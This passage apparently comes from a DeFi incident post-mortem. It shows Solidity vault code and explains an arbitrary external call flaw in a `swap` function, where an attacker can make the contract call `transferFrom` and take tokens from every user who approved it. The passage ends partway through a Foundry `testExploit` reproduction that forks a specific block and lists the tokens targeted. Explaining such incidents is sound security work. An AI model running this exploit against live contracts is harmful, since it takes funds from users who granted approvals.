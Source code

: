 ```solidity
        TransferHelper.safeTransferNative(receiver, _amountOut);
    } else {
        IERC20(receiveToken).safeTransfer(receiver, _amountOut);
    }

    _orderID++;
    emit LogVaultOut(
        receiveToken,
        _msgSender(),
        _orderID,
        _amountOut,
        receiver,
        order
    );
}

function _checkVaultOut(
    address tokenAddr,
    uint256 amount,
    bytes calldata order
) internal pure {
    require(tokenAddr != address(0), "MP: tokenAddress is invalid");
    require(amount > 0, "MP: amount is 0");
    require(order.length > 0, "MP: order is empty");
}
```

It can be noted that since both target and callData are parameters passed to the `swap` function, they can be arbitrarily specified, leading to the arbitrary external call vulnerability in the following code.

```solidity
target.functionCallWithValue(
            callData,
            amount,
            "MP: CallWithValue failed"
        );
target.functionCall(callData, "MP: FunctionCall failed");
```

Since both the target of the call and the parameters are controllable, for any victim that has approved the vulnerable contract (especially with unlimited approval), the attacker can pass parameters to call the `transferFrom` function and obtain all tokens corresponding to the victim.

## Exploit

### Reproduce

Combining the three AttackTx from the attacker, the exploit can be derived as follows.

```solidity
function testExploit() public {
    uint attackBlockNumber = 37880387;
    vm.rollFork(attackBlockNumber);

    address[12] memory targetToken = [
        address(usdt),
        address(sol),
        address(AVAX),
        address(babydoge),
        address(FOLKI),
        address(ATOM),
        address(TLOS),
        address(IOTX),
        address(linch),
```
